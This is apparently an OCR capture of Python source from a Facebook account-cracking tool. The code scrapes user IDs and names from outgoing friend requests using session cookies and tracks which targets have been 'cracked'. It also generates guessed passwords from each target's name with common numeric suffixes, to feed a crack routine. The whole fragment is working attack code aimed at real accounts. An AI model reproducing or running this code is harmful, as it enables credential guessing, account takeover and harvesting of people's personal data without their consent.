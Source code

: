 
def permintaan_pertemanan_keluar(cookies):
    _url_dev_ = 'https://mbasic.facebook.com/friends/center/requests/outgoing';_file_ = 'friend_out.json'
    try:os.remove(_file_)
    except:pass
    print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K));exec_permintaan_pertemanan_keluar(_url_dev_,cookies,_file_);print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)
def exec_permintaan_pertemanan_keluar(url,cookies,_file_):
    open(_file_,'a');_req_ses_ = requests.Session();_req_get_ = _req_ses_.get(url,cookies=cookies,headers=header_nama);_sop_dev_ = par(_req_get_.text,'html.parser');print ("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(_file_).read().splitlines())),end='');sys.stdout.flush()
    try:
        for _azimvau_ in _sop_dev_.find_all('a',href=True):
            if '/friends/hovercard' in _azimvau_.get('href'):
                try:_name_dev_ = _azimvau_.text;_id_dev_ = "".join(bs4.re.findall('uid=(.*?)&',_azimvau_.get('href')));open(_file_,'a+').write('%s•%s\n'%(_id_dev_,_name_dev_))
                except:pass
            else:pass
        for _azimvau_ in _sop_dev_.find_all('a',href=True):
            if 'See More' in _azimvau_.text:url_dev = 'https://mbasic.facebook.com/' + _azimvau_.get('href');exec_permintaan_pertemanan_keluar(url_dev,cookies,_file_)
    except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)

### Cek Target Crack
def cek_target_crack_(_id_):
    open('list_id.txt','a+')
    try:
        _cek_ = open('list_id.txt','r').read()
        if _id_ in _cek_:
            if _id_ == 'me':pass
            else:
                _cokzz_ = _cici_azimvau_('%s [%s!%s] %sID HAS BEEN CRACKED, CONTINUE? [Y/n] : '%(M,P,M,P))
                if _cokzz_ in ['',' ']:pass
                elif _cokzz_ in ['1','01','y']:pass
                elif _cokzz_ in ['2','0','n']:menu()
                else:pass
        else:_azimvau_dapunta_('list_id.txt',"a+").write("%s\n"%(_id_))
    except:pass

### Generate Password
def generate1(_cici_):
    _azimvau_=[]
    for i in _cici_.split(" "):
        if len(i)<3:continue 
        else:
            i=i.lower()
            if len(i)==3 or len(i)==4 or len(i)==5:_azimvau_.append(i+"123");_azimvau_.append(i+"12345");_azimvau_.append(i+"123456789");_azimvau_.append(i+"1234");_azimvau_.append(i+"123456")
            elif len(i)>=6:_azimvau_.append(i);_azimvau_.append(i+"123");_azimvau_.append(i+"12345");_azimvau_.append(i+"123456789");_azimvau_.append(i+"1234");_azimvau_.append(i+"123456")
            else:continue
    _azimvau_.append(_cici_.lower())
    return _azimvau_
